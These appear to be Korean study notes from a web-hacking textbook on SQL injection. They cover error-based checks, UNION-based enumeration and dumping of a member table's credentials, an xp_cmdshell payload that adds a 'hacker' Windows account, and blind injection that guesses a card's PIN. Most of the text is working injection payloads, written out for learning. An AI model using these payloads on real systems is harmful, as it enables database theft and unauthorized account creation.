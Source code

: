 

##### DB정보 확인하기

1. `' and db_name()=1--`



p.198

#### UNION

셀렉트 결과 합산

1. `admin' union select 1, 2, 3, 4 #`
   필드 개수가 맞지 않아 에러가 생긴다 에러 메세지가 자오지 않을 때 까지 개수를 추가해준다

2. `admin' union select version(), 2, 3, 4, 5, 6 #`
   mysql버전 확인
3. `admin' union select schema_name, 2, 3, 4, 5, 6 from information_schema.schemata #`
   db명을 다 얻을 수 있다
4. `admin' union select group_concat(table_name),2,3,4,5,6 from information_schema.tables where table_schema=database()#`
   현재 사용하고 있는 스키마의 테이블 내용을 다 얻을 수 있다
5. `admin' union select group_concat(column_name),2,3,4,5,6 from information_schema.columns where table_name='board_member'#`
   board_member 테이블의 모든 컬럼을 얻을 수 있다
6. `dmin' union select idx,userid,userpw,username,5,6 from board_member#`
   board_member 테이블의 모든 데이터를 가지고 온다



p.202

#### Stored Procedure

내장함수 기능

p.202 표 4-1

1. admin'; exec xp_cmdshell 'net user hacker hacker /add'--
   윈도우 cmd창을 켜서 hacker 계정 추가



p.204

#### Blind SQL

예 아니오(true or false) 응답하는 기능에서 맞다고 할 때 까지 계속 해서 값을 입력하는 것



1. `101 and (select pin from pins where cc_number='1111222233334444')<3000`
2. `101 and (select pin from pins where cc_number='1111222233334444')>2000`
3. `101 and (select pin from pins where cc_number='1111222233334444')>2500`

......



입력창에 and 뒤에 1=1 또는 1=2 의 결과가 나오는 것을 보고 and연산이 되는 것을 알게 되면 블라인드 테스트를 할 수 있다
